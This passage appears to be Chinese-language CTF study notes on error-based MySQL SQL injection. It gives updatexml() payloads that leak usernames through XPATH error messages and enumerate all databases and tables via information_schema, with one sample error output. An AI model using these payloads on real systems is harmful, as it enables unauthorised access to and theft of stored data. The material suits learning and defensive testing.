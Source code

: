   - `LIMIT()` 
  
  ```sql
  SELECT username, password FROM users WHERE id = 1 and   updatexml(1,concat(0x7e,
  (select username from users 
  limit 1,1)),
  3);
  # 不断改变limit NUM,1 的值逐行获取
  ```
  
  ![image-20230505011056626](https://nssctf.wdf.ink//img/WDTJ/202305050110708.png)
  
  - `substr()`
  ```sql
  SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
  substr(
  (select group_concat(username) from users),
  1,31)
  ),3);
  ```
  
    执行结果：
  
  ```sql
  mysql> SELECT username, password FROM users WHERE id = 1 and updatexml(1,concat(0x7e,
  substr(
  (select group_concat(username) from users),1,31)
  ),3);
  1105 - XPATH syntax error: '~admin,super,flag,null'
  ```
  
  利用利用上述特性，我们可以下面的语句获取信息：
  
  获取所有数据库
  
  ```SQL
  SELECT username, password FROM users WHERE id = 1 and
  updatexml(1,concat('~',
          substr( 
                  (select group_concat(schema_name)
                  from information_schema.schemata)
          , 1 , 31)
  ),3)
  ```
  
  获取所有表
  
  ```SQL
  SELECT username, password FROM users WHERE id = 1 and
  updatexml(1,concat('~',
          substr( 
                  (select group_concat(table_name)
                  from information_schema.tables
                  where table_schema = 'security')
          , 1 , 31)
  ),3)
  ```
  